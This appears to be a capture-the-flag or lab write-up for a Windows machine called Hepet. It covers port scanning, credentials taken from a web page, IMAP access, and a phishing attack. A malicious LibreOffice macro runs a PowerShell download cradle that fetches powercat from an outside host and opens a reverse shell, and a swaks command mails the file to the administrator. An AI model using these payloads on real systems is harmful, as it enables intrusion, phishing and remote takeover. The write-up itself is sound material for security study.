




# Hepet - windows

* nmap
```
PORT      STATE SERVICE        VERSION
25/tcp    open  smtp           Mercury/32 smtpd (Mail server account Maiser)
|_smtp-commands: localhost Hello nmap.scanme.org; ESMTPs are:, TIME
79/tcp    open  finger         Mercury/32 fingerd
| finger: Login: Admin         Name: Mail System Administrator\x0D
| \x0D
|_[No profile information]\x0D
105/tcp   open  ph-addressbook Mercury/32 PH addressbook server
106/tcp   open  pop3pw         Mercury/32 poppass service
110/tcp   open  pop3           Mercury/32 pop3d
|_pop3-capabilities: TOP APOP UIDL USER EXPIRE(NEVER)
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
143/tcp   open  imap           Mercury/32 imapd 4.62
|_imap-capabilities: AUTH=PLAIN CAPABILITY complete OK X-MERCURY-1A0001 IMAP4rev1
443/tcp   open  ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Time Travel Company Page
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
2224/tcp  open  http           Mercury/32 httpd
|_http-title: Mercury HTTP Services
5040/tcp  open  unknown
8000/tcp  open  http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Time Travel Company Page
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
11100/tcp open  vnc            VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    Unknown security type (40)
20001/tcp open  ftp            FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            312 Oct 20  2020 .babelrc
| -r--r--r-- 1 ftp ftp            147 Oct 20  2020 .editorconfig
| -r--r--r-- 1 ftp ftp             23 Oct 20  2020 .eslintignore
| -r--r--r-- 1 ftp ftp            779 Oct 20  2020 .eslintrc.js
| -r--r--r-- 1 ftp ftp            167 Oct 20  2020 .gitignore
| -r--r--r-- 1 ftp ftp            228 Oct 20  2020 .postcssrc.js
| -r--r--r-- 1 ftp ftp            346 Oct 20  2020 .tern-project
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 build
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 config
| -r--r--r-- 1 ftp ftp           1376 Oct 20  2020 index.html
| -r--r--r-- 1 ftp ftp         425010 Oct 20  2020 package-lock.json
| -r--r--r-- 1 ftp ftp           2454 Oct 20  2020 package.json
| -r--r--r-- 1 ftp ftp           1100 Oct 20  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 src
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 static
|_-r--r--r-- 1 ftp ftp            127 Oct 20  2020 _redirects
|_ftp-bounce: bounce working!
33006/tcp open  mysql          MariaDB 10.3.24 or later (unauthorized)
49664/tcp open  msrpc          Microsoft Windows RPC
49665/tcp open  msrpc          Microsoft Windows RPC
49666/tcp open  msrpc          Microsoft Windows RPC
49667/tcp open  msrpc          Microsoft Windows RPC
49668/tcp open  msrpc          Microsoft Windows RPC
49669/tcp open  msrpc          Microsoft Windows RPC
```

* port 80,443 -> time travel company page. we get employees names and probable password.


* Verified the list of users with smtp enum.



* We can login to IMAP mail server with jonas:SicMundusCreatusEst



* From the emails, we can see that they are upgrading to libre office and all the spreadsheets are in mail server.

* Phishing Attack.

* Create a malicious liber office (.ods) file. (https://github.com/jotyGill/macro-generator)

* edited the .ods file
```
build_payload = (f'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.159/powercat.ps1");powercat -c {ip} -p {port} -e powershell')
```

* generated the malicios file



* server powercat.ps1 and send the email

```
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.ods --server 192.168.190.140 --body "Please check this spreadsheet" --header "Subject: Please check this spreadsheet"
```
* we get connection.

* Priv Esc -> service binary hijacking



* shut down the system, we get admin connection.
